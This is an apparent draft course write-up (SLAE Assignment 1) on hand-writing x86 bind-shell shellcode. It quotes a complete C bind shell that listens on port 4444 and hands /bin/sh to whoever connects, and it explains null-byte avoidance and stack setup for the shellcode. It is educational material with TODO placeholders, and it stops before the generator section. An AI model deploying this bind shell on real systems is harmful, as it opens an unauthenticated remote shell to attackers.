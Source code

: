 # WIP - Assignment 1 - Bind Shell

TODO: Intro to this article... assembly by hand, then writing a shellcode generator.

## What does a Bind Shell need to do?

A high level overview of a Bind Shell is that it creates a socket, binds that
socket to a port, listens for a connection, accepts a connect, then duplicates
STDIN, STDOUT, and STDERR to the file descriptor of the connected socket, and
finally execs /bin/sh (or another shell). One of my favorite free resources for shellcoding is the tutorial series by Azeria Labs for exploitation on the ARM architecture. I outlined what my shellcode needed to accomplish by looking at Azeria's C version of a [bind shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/):
```C
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 

    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order

    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    // Listen for incoming connections 
    listen(host_sockid, 2); 

    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 

    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 

    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid);
```
TODO: Say more about this.

## First Approach: Writing Assembly by Hand

Writing unobfuscated shellcode in x86 assembly is straightforward. It consists of moving the appropriate values into registers for a series of system calls. A quick ```man 2 syscall``` reveals the calling convention and Application Binary Interface (ABI). However, a few issues require some forethought: 
1. Avoiding null bytes (0x00) or other bad characters if needed
    - XOR a register with itself to zero it out, e.g. ```xor eax, eax``` instead of ```mov eax, 0```
    - Write to 8- or 16-bit registers to avoid leading zeros, e.g. ```mov al, 10``` instead of ```mov eax, 10```
2. Building a *sockaddr* struct on the stack
3. Strings, because our code is position independent

### Headache #1 - Building a sockaddr
Re-write this better later: I tripped over the ```struct sockaddr *``` required as the second argument to the *bind* syscall. What order were the address family, port, and IP address to be passed? Where was the padding?

I used a "Guess and Check" approach, writing assembly to build various permutations of this on the stack:

| value     | location  | meaning               |
|------     | --------- | -----                 |
|0x02005555 | rsp       | AF\_INET, port 0x5555 |
|0x00000000 | rsp + 4   | INADDR\_ANY           |

This *seemed* right. However, when I compiled and ran ```printf("size = %d\n",
sizeof(struct sockaddr));``` and saw the struct consisted of 16 bytes, that
suggest *four* 32-bit (4 byte) values, not two. Sadly, I got stuck at this juncture and looked for how someone else did it:

Another SLAE student [https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp](https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp)
pushed first the IPv4 address, then the port number as a *word*, and lastly the *sin\_family* as a *word*.  

TODO: draw a diagram of how it actually looked on the stack

Creating the parameters to *execve* was simple. The important first parameter was to create the null-terminated string "/bin/sh\0". To obviate the need to pinpoint a specific byte for NULLing, I used the **extra slashes in paths** technique to pad the string to two 32-bit strings: "/bin" and "//sh". These I converted to hex values with Python:
```
Python 3.5.2 (default, Oct  7 2020, 17:19:02) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> code = "//sh"
>>> rev = code[::-1]
>>> rev.encode("utf-8").hex()
'68732f2f'
>>> code = "/bin"
>>> rev = code[::-1]
>>> rev.encode("utf-8").hex()
'6e69622f'
```

## Second Approach: Shellcode Generator with Configurable Port Number

